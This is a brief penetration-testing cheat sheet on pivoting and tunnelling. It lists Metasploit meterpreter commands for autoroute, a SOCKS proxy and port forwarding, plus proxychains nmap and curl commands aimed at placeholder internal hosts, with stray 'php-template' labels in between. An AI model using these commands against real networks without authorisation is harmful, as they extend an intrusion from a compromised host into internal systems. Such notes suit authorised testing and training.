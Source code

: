 # Pivoting & Tunnelling

meterpreter > run autoroute -s <INTERNAL/CIDR>
msf6 > use auxiliary/server/socks_proxy
set SRVPORT 9050
run

php-template

proxychains -q nmap -Pn -sT -p80 <INTERNAL_HOST>
curl -v http://127.0.0.1:<LOCAL_PORT>/ -H 'Host: <INTERNAL_FQDN>'
php-template

meterpreter > portfwd add -l <LOCAL_PORT> -p 80 -r <INTERNAL_HOST>
